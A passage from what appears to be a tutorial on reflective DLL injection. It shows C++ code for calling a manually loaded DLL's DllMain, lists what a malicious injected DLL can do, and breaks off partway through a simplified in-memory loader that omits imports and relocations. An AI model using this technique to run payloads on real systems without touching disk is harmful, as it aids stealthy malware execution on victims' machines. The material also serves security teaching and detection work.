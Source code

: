 #### 4. Calling the DLL's Entry Point (DllMain)
Once imports and relocations are resolved, the DLL’s entry point (typically `DllMain`) needs to be called. This signals to the DLL that it has been successfully loaded into memory, and any initialization code can run.

```cpp
// Define a function pointer to the DLL's entry point
typedef BOOL(WINAPI *DLL_ENTRY_POINT)(HINSTANCE, DWORD, LPVOID);

// Get the entry point address
PIMAGE_OPTIONAL_HEADER pOptionalHeader = &pNTHeaders->OptionalHeader;
DLL_ENTRY_POINT entryPoint = (DLL_ENTRY_POINT)((BYTE*)dllBase + pOptionalHeader->AddressOfEntryPoint);

// Call DllMain
entryPoint((HINSTANCE)dllBase, DLL_PROCESS_ATTACH, NULL);
```

- `DllMain` receives three parameters:
  - `HINSTANCE hinstDLL`: The base address of the DLL.
  - `DWORD fdwReason`: The reason the function is being called (`DLL_PROCESS_ATTACH` in this case).
  - `LPVOID lpvReserved`: Reserved for future use, usually set to `NULL`.

#### 5. Executing the Payload
After the DLL is loaded and its entry point has been called, any malicious code within the DLL can now execute. The malicious code can:
- Spawn new processes
- Inject code into other processes
- Create files or modify registry entries
- Communicate over the network (if it's a backdoor)

# Full Example: A Simple Reflective DLL Injector in C++

Here’s a simplified reflective DLL injector example in C++. This code loads the DLL into the memory of the current process and executes it without writing it to disk.

```cpp
#include <windows.h>
#include <iostream>

// Simplified reflective loader function
void ReflectiveLoader(unsigned char* dllBuffer, SIZE_T dllSize) {
    // Allocate memory for the DLL
    LPVOID dllBase = VirtualAlloc(NULL, dllSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the DLL into the allocated memory
    memcpy(dllBase, dllBuffer, dllSize);

    // Get the DOS header of the DLL
    PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)dllBase;
    
    // Get the NT headers
    PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((BYTE*)dllBase + pDOSHeader->e_lfanew);
    
    // Resolve imports and perform relocations (not shown here for brevity)

    // Get the entry point address
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = &pNTHeaders->OptionalHeader;
    typedef BOOL(WINAPI *DLL_ENTRY_POINT)(HINSTANCE, DWORD, LPVOID);
    DLL_ENTRY_POINT entryPoint = (DLL_ENTRY_POINT)((BYTE*)dllBase + pOptionalHeader->AddressOfEntryPoint);
    
    // Call DllMain
    entryPoint((HINSTANCE)dllBase, DLL_PROCESS_ATTACH, NULL);
```